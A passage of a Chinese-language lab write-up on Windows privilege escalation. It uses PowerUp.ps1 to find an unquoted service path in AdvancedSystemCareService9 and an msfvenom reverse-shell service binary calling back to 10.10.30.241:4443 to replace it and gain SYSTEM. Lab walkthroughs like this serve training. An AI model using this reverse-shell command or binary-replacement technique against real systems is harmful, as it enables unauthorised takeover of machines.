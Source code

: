 拿到shell之后去dekstop找到user.txt，内容即为flag。

## Privilege Escalation

这里使用了一个powershell脚本https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1。（该脚本是一个基于poweshell的提权功能脚本，包含了很多功能，后续会出专门的文章对该工具的使用进行详解。）

上传到目标机器，然后执行：

![image-20240306162134267](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403061621275.png)

然后启动powershell扩展：

![image-20240306162309830](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403061623871.png)

执行上传的脚本:

![image-20240306162547671](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403061625717.png)

### What is the name of the service which shows up as an *unquoted service path* vulnerability?

存在问题的服务的名称：AdvancedSystemCareService9

### What is the root flag?

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Use msfvenom to generate a reverse shell as an Windows executable.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.30.241 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

Upload your binary and replace the legitimate one. Then restart the program to get a shell as root. 

本地生成payload之后，首先暂停掉目标服务AdvancedSystemCareService9，然后上传payload：

![image-20240306163834688](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403061638495.png)

本地监听端口，重新进入shell启动服务，拿到system权限：

![image-20240306164034475](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403061640530.png)

![image-20240306164152121](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403061641177.png)

## Access and Escalation without Metasploit

不使用msf重新走一遍上面的流程。

### 1. 下载exp
